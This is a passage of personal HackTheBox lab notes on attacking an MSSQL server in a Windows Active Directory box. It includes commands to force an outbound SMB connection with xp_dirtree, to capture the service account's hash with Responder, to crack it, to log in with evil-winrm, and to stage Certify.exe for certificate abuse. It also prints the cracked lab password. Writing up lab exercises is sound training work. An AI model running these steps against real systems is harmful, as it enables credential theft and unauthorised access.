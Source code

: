 From mssqlclient.py shell
```
xp_cmdshell whoami
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526212229.png]]

```
enable_xp_cmdshell
```
- no privileges to do this

#### Use xp_dirtree to intercept the hash of user running MSSQL
Using XP_DIRTREE to request a file off an SMB Share in order to intercept the hash of the user running MSSQL, then cracking it
##### xp_dirtree fake share
```
xp_dirtree \\10.10.14.8\fake\share
```
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526212853.png]]
On Kali, set up responder 
##### Responder
```
sudo responder -I tun0
```

Execute xp_dirtree command and catch the sql_svc hash
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526212929.png]]

Crack this NetNTLMv2 hash using hashcat and rockyou.txt (hashcat autodetected the hash mode to use).

Password is: `REGGIE1234ronnie`

We could login with evil-winrm
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526213530.png]]
### Priv Esc to SQL_SVC user

#### Evil-WinRM

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526213750.png]]

### Enumerate for Priv Esc

This box has a certificate authority so let's upload Certify.exe

This executable is within the SharpCollection 

```
SharpCollection/NetFramework_4.7_Any/Certify.exe
```

Serve up this file using evil-winrm's `upload` functionality
